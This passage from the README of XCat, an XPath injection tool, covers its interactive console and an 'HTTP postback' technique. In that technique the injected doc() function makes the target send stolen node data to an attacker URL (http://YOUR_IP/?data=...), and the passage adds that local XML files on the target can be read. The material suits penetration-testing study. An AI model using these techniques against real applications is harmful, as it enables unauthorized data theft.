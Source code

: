 		    <books>
			    <!--1 comment node-->
    

The `console` command will open an interactive shell :

    Injecting using FunctionCall
    Detecting features...
    Listening on 0
    Listening on 45470
    Supported features: Substring search speedup, Read local XML files, Read local text files, Out of bounds HTTP, String to codepoints, XPath 2
    Opening console
    /*[1] : 

The supported command of the shell are `ls`, `cd`, `attr`, `comment`, `content`, `name`.

 - `ls` - List the name of all the subnode.
 - `cd` - Change the current node. Use the value `..` to navigate back. To specify an absolute path start with a `/`.
 - `attr` - List the attributes of the current node.
 - `comment` - List of the comments node of the current node.
 - `content` - Return the content of the current node.
 - `name` - Return the node name of the current node. 

### Simple usage with the example application
Check out the [readme](src/example_application) to try out XCat with the provided example application.


HTTP Postback / doc function and entity injection
----------------------------

Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function
called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents
from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working
then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP
server within the program which listens on a specified port and by then calling the doc() function with the currently
targeted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your
IP (requires the port to be forwarded and/or a public IP) in the following format similar to:

	http://YOUR_IP/?data=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing
you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using
the fileshell command (shown above) and enter the file path for an XML file.
